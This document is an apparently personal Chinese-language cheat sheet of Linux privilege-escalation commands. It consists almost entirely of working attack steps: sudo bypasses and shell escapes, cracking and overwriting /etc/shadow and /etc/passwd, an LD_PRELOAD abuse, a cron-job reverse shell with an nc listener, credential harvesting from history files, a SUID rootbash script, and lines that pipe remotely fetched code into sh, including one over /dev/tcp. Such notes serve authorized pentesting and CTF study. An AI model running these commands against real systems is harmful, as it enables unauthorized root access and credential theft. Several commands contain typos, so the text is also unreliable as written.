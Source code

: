### 查看当前用户
whoami
id
uname -a
uname -m

### 查看当前目录
pwd

### 枚举
sudo -l

### 切换用户
sudo -u jack /bin/bash
sudo -u#10000 /bin/bash

### sudo -u提权
sudo -V | grep version 
'Sudo version 1.7.4p4'
sudo -u#-1 /bin/bash

### sudo apt(apt-get)提权
sudo apt update -o APT::Update::Pre-Invoke::=/bin/bash

### sudo apache2提权
sudo apache2 -f /etc/shadow
vim shadow_root
sudo john shadow_root --wordlist=/usr/share/wordlists/rockyou.txt

### sudo ash提权
sudo ash

### sudo awk提权
sudo awk 'BEGIN {system("/bin/bash)}'

### shadow 可读可写
ls -liah /etc/shadow
cat /etc/passwd
cat etc/shadow
cat /etc/shadow | grep ':\$'
vim hash
cat vim
sudo john  --wordlist=/usr/share/wordlists/rockyou.txt hash

mkpasswd -m sha512 admin
vim /etc/shadow 

### passwd 可读可写
openssl passwd admin
vim etc/passwd

### sudo环境变量提权
'env_reset,env_keep+=LD_PRELOAD'
vim 共享库
编译
sudo LD_PRELOAD=/home/user/共享库 find

### 自动任务提权
cat /etc/crontab

'***** root overwrite.sh'
'***** root /usr/local/bin/compress.sh'

locate overwrite.sh
ls -lish /../../overwrite.sh
cat /../../overwrite.sh

kali@kali:sudo nc -lvnp 4444

vim /../../overwrite.sh
反弹shell
----------------------------
vim overwrite.sh
提权脚本
/tmp/rootbash -p

### suid提权
find / -perm -u=s -type f 2>dev/null

/usr/local/bin/suid-so
usr/local/bin/suid-env
usr/local/bin/suid-env2

searchsploit xxx

### 密码和密钥历史文件提权
history
cat ～/.*history | less
ls -liah
cat .viminfo
cat myvpn.ovpn

ssh

### 备份shadow/passwd
cp /etc/shadow /tmp/shadow.bak
cp /etc/passwd /tmp/passwd.bak

### 查看历史记录
history

### 内核提权
uname -a
'内核版本过低'
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
##### 无curl
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo nc -lvnp 80 < linpeas.sh
cat < /dev/tcp/192.168.204.129/80 | sh

### doas

### mysql提权思路
mysql -u root
show databases;
use mysql
show tables;
select * from user;
describe user;


chomd 600 file

locate password | more
find / -name root_key 2> /dev/null

### 提权脚本
"#! /bin/bash

cp /bin/bash /tmp/rootbash
chomd +xs /tmp/rootbash"

/tmp/rootbash -p

### 提权大全
https://gtfobins.github.io/
